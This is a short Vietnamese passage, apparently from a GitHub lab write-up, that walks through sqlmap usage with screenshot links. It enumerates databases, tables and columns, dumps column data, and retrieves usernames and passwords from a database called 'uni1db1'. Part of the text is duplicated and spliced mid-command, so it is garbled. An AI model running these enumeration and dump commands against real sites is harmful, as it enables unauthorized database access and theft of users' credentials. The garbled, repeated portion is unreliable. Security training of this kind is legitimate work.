 - Sử dụng `sqlmap -u [url] --dbs` để lấy database 

![image](https://github.com/user-attachments/assets/ff6d1bfb-51a6-4ea6-b393-0982fb0f24a7)

![image](https://github.com/user-attachments/assets/652ece72-73a1-4b21-bafb-b894f84ac841)

- Sử dụng `sqlmap -u [url] -D [databasename] --tables` để lấy thông tin về các bảng trong databas đó

![image](https://github.com/user-attachments/assets/800026a0-710b-415a-92e0-007f5f1804e6)

![image](https://github.com/user-attachments/assets/2de66ad8-1896-4a82-b45a-c0dc285d46d9)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] --columnsng `sqlmap -u [url] --dbs` để lấy database 

![image](https://github.com/user-attachments/assets/ff6d1bfb-51a6-4ea6-b393-0982fb0f24a7)

![image](https://github.com/user-attachments/assets/652ece72-73a1-4b21-bafb-b894f84ac841)

- Sử dụng `sqlmap -u [url] -D [databasename] --tables` để lấy thông tin về các bảng trong databas đó

![image](https://github.com/user-attachments/assets/800026a0-710b-415a-92e0-007f5f1804e6)

![image](https://github.com/user-attachments/assets/2de66ad8-1896-4a82-b45a-c0dc285d46d9)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] --columns để lấy các cột trong bảng

![image](https://github.com/user-attachments/assets/382797d9-ced3-4a1c-b547-69b5d8329342)

![image](https://github.com/user-attachments/assets/ab666ff7-b789-4507-bbd9-3780db9ceee0)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] -C [column name] --dump` để lấy dữ liệu cột trong bảng

![image](https://github.com/user-attachments/assets/bb10f2cf-6161-40ac-a6c5-d883f6c09501)

![image](https://github.com/user-attachments/assets/c99a5e12-efa4-4a1c-8af0-85413cec38b6)

- Xem trong database `uni1db1` còn lấy được tên username và password

![image](https://github.com/user-attachments/assets/b718fdf4-2e6d-4b25-8281-f0f5c859db9d)

![image](https://github.com/user-attachments/assets/a3f8d948-81ea-41f8-8c0b-c43a86261172)
